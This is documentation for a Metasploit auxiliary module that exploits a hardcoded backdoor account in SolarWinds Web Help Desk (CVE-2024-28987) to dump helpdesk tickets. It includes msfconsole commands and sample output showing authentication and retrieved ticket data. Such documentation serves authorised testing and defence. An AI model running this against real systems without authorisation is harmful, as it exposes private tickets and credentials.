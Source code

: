 ## Vulnerable Application

This module exploits a backdoor in SolarWinds Web Help Desk <= v12.8.3 (CVE-2024-28987) to retrieve all tickets from the system.

## Testing

The software can be obtained from
[the vendor](https://downloads.solarwinds.com/solarwinds/Release/WebHelpDesk/12.8.1/WebHelpDesk-12.8.1-x64_eval.exe).

Installation instructions are available [here]
(https://documentation.solarwinds.com/en/success_center/whd/content/whd_installation_guide.htm).

**Successfully tested on**

- SolarWinds Web Help Desk v12.8.1 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/solarwinds_webhelpdesk_backdoor 
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > set RHOSTS <IP>
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
```

This should return all the tickets from the Web Help Desk platform.

## Options

### TICKETSTODUMP
The number of tickets to dump to the terminal.

## Scenarios

Running the exploit against Web Help Desk v12.8.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
[*] Running module against 192.168.217.145

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Authenticating with the backdoor account "helpdeskIntegrationUser"...
[+] Successfully authenticated and tickets retrieved. Displaying the first 2 tickets retrieved:
[+] [
  {
    "id": 2,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T08:54:13Z",
    "shortSubject": "Password reset",
    "shortDetail": "Hi,\r\n\r\nhere is your super secure password: foo\r\n\r\nYour IT Support",
    "displayClient": "No Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "13 hours ago",
    "latestNote": null
  },
  {
    "id": 1,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T05:15:17Z",
    "shortSubject": "Welcome to Web Help Desk",
    "shortDetail": "Congratulations! You have successfully installed Web Help Desk. Further configuration options are...",
    "displayClient": "Demo Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "17 hours ago",
    "latestNote": null
  }
]
[+] Saved 2 tickets to /home/asdf/.msf4/loot/20240926004744_default_unknown_solarwinds_webhe_825328.txt
[*] Auxiliary module execution completed
```
